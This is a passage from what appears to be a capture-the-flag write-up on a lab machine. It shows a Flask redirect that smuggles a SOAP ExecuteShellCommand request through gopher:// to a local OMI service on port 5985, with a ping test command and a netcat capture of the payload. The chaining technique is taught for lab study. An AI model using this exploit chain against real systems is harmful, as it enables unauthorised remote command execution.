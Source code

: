 Now I’ll update the route to pass the new redirect:

    
    
    @app.route('/')    
    def root():    
        cmd = "ping -c 1 10.10.14.6"    
        data = DATA.format(cmd)
        req = REQUEST.format(length=len(data)+2, body=data)
        enc_req = quote(req, safe='')
        return redirect(f'gopher://127.0.0.1:5985/_{enc_req}', code=301)
    

`quote` will URL-encode the string.

I’m still redirecting to myself so I can see what it looks like, and it looks
good:

    
    
    oxdf@parrot$ nc -lnvp 5985
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::5985
    Ncat: Listening on 0.0.0.0:5985
    Ncat: Connection from 10.10.11.117.
    Ncat: Connection from 10.10.11.117:47688.
    POST / HTTP/1.1
    Host: localhost:5985
    User-Agent: curl/7.74.0
    Content-Length: 1663
    Content-Type: application/soap+xml;charset=UTF-8
    
    <s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:h="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema">
    ...[snip]...
          <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
             <p:command>ping -c 1 10.10.14.6</p:command>
             <p:timeout>0</p:timeout>
          </p:ExecuteShellCommand_INPUT>
       </s:Body>
    </s:Envelope>
    

### Remote

#### Ping

Instead of having it send the request to me, I’ll target 5985 on Jarmis:

    
    
        return redirect(f'gopher://127.0.0.1:5985/_{enc_req}', code=301)
    

After saving, I’ll send it again. It hits MSF:

